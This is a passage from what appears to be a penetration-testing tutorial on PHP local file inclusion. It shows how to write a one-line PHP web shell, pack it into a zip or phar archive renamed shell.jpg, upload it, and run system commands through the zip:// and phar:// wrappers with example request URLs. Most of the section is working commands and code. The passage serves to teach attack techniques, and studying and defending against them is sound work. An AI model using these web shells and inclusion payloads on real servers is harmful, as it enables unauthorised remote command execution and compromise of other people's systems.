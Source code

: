There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the zip wrapper to execute PHP code. **However, this wrapper isn't enabled by default, so this method may not always work**. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named shell.jpg), as follows:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the shell.jpg archive, we can include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded). Finally, we can execute commands as we always do with &cmd=id, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar upload

Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called shell.jpg. Once we upload it to the web application, we can simply call it with phar:// and provide its URL path, and then specify the phar sub-file with /shell.txt (URL encoded) to get the output of the command we specify with (&cmd=id), as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

<br>
<br>
<br>
<br>

# LOG poisoning
